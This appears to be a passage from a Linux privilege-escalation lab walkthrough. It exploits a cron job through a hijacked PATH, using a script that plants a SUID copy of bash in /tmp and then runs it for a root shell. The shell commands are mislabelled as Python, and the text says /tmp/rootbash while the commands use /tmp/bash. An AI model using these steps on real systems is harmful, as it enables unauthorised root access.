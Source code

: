 **View the contents of the system-wide crontab:**
```python
cat /etc/crontab
```

**Note that the PATH variable starts with "/home/user" which is our user's home directory.**
![[linux_privesc15.png]]

**Create a file called "overwrite.sh" in your home directory with the following contents:**
```python
#!/bin/bash  
  
cp /bin/bash /tmp/bash  
chmod +xs /tmp/bash
```

**Make sure that the file is executable:**
```python
chmod +x /home/user/overwrite.sh
```

**Wait for the cron job to run (should not take longer than a minute). Run the /tmp/rootbash command with -p to gain a shell running with root privileges:**
```python
/tmp/bash -p
```

